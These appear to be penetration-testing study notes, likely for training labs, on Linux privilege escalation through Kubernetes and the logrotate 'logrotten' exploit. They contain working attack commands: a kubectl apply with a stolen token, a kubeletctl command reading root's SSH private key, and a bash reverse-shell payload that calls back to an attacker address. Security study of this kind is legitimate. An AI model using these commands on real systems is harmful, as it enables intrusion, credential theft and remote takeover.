 ```yaml
  automountServiceAccountToken: true
  hostNetwork: true
```
###### Command
```shell
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
```
##### Extracting Root SSH Keys
```shell
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
### Logrotate
* Linux systems produce a large number of log files.
* A tool called `logrotate` takes care of archiving or disposing of old logs 
##### Features of Logroate
* Managing the size of the log files
* their age
* the action to take when these factors are reached
#### Interacting with
```shell
cat /etc/logrotate.conf
```
##### Force a new rotation
set the date in: 
```shell
sudo cat /var/lib/logrotate.status
```
or use:
```shell
logrotate -f
```
##### Find corresponding configuration files
```shell
ls /etc/logrotate.d/
```

```shell
cat /etc/logrotate.d/dpkg
```
#### Exploit
##### Requirements:
* Need `write` permissions
* logrotate must run as privileged user or root
* Vulnerable versions
	* 3.8.6
	* 3.11.0
	* 3.15.0
	* 3.18.0
[Premade](https://github.com/whotwagner/logrotten)exploit
##### Using
```shell
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
Create payload
```shell
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
Work out which option lograte uses
```shell
 grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```